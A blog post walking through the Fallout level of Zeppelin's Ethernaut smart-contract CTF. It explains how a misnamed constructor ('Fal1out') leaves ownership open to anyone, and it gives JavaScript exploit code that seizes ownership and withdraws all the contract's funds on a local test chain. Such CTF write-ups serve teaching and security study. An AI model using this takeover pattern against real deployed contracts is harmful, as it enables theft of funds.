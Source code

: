 Title: Solving Zeppelin's Ethernaut CTF - Fallout
Date: 2018-06-01 10:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-fallout
Summary: Third post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In this one, we solve the second challenge: Fallout.

## Introduction
While in the [Introduction](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-intro/) of this series we setup the environment with Ganache-cli and Truffle, in the [second article](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/) we walked through deploying our first smart contract, the basics of Solidity and Web3 and finally found a way to become the owners of the Fallback contract, thus passing the first challenge. Now, we will solve the second one: [Fallout](https://ethernaut.zeppelin.solutions/level/0x220beee334f1c1f8078352d88bcc4e6165b792f6).

## The Fallout contract
Take a moment to *thoroughly* look at the contract's source code and try to find what is wrong with it.

Need a hint ? Remember what we talked [about contract's constructors](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#constructors).

Not quite there yet ? Observe the contract's name and the name of the *constructor*. Any difference ?

~~~solidity
contract Fallout is Ownable {
    ...
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
    ...
}
~~~

Yeap, there it is. Fallout is not the same as Fal1out, which means: **Fallout does not have a constructor**. The function that was intended to be the contract's constructor is actually a regular **public** function that can be called by anyone, since its name does not match the contract's name.

Having discovered that, all we have to do now in order to become the owners of the contract (i.e. pass the challenge) is simply call the Fal1out function.

## Solving Fallout
Just follow this simple steps:

1. Start ganache-cli
2. Deploy the Fallout contract with Truffle
3. Write and execute exploit

Since steps 1 & 2 were covered in the [previous article](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback#deploying-your-first-smart-contract), let's skip those here and move on to the fun stuff: exploiting the contract.

First, as you can see below, the structure of the exploit remains the same as in Fallback. We get the attacker account, an instance of the deployed vulnerable contract and check its owner.

~~~javascript
const FalloutContract = artifacts.require('Fallout')
const assert = require('assert')

async function execute(callback) {
    // Get attacker account
    let attacker = web3.eth.accounts[1]
    console.log(`Attacker address: ${attacker}`)

    // Instance vulnerable contract
    let contract = await FalloutContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    assert.equal(contractOwner, web3.eth.accounts[0])
    console.log(`Contract owner: ${contractOwner}`)

    //[...]

    callback()
}
module.exports = execute
~~~

Once done with that, we need to call the Fal1out function and assert the attacker has become the owner:
~~~javascript
await contract.Fal1out({
    from: attacker,
    value: web3.toWei(0.0009, 'ether')
})

// Check who's the owner now (:
contractOwner = await contract.owner.call()
assert.equal(contractOwner, attacker)
console.log(`Contract owner: ${contractOwner}`)
~~~

Excellent! As owners, we can withdraw the entire balance of the contract.
~~~javascript
// Withdraw all money
let response = await contract.collectAllocations({
    from: attacker
})
console.log(`Withdrew all allocations in transaction ${response.tx}`)
~~~

Aaand, challenge completed. That wasn't so hard, right ?

Find the entire [exploit code of the Fallout contract at my GitHub repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/fallout.exploit.js).

If you enjoyed this challenge, stay tuned! In the [next post](https://www.hackingmood.com/ethereum/solving-zeppelin-ethernaut-ctf-coinflip) we will dive into the problems of randomness in the Ethereum blockchain with the next challenge: [Coin Flip](https://ethernaut.zeppelin.solutions/level/0xd340de695bbc39e72df800dfde78a20d2ed94035).
